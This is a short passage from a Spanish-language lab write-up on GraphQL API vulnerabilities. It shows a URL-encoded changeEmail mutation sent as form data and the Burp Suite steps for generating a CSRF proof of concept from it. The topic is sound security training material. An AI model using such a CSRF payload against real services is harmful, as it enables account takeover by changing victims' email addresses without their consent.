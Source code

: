 ![](/assets/img/GraphQL-API-Vulnerabilities-Lab-5/image_6.png)

```
query=mutation%20changeEmail($input:ChangeEmailInput!)%20{changeEmail(input:$input)%20{email}}&operationName=changeEmail&variables:{"input":{"email":"test@gmail.com"}}}
```

Nos `generamos` un `PoC` de `CSRF`, para ello pulsamos `click derecho > Engagements tools > Generate CSRF PoC`

![](/assets/img/GraphQL-API-Vulnerabilities-Lab-5/image_7.png)

![](/assets/img/GraphQL-API-Vulnerabilities-Lab-5/image_8.png)
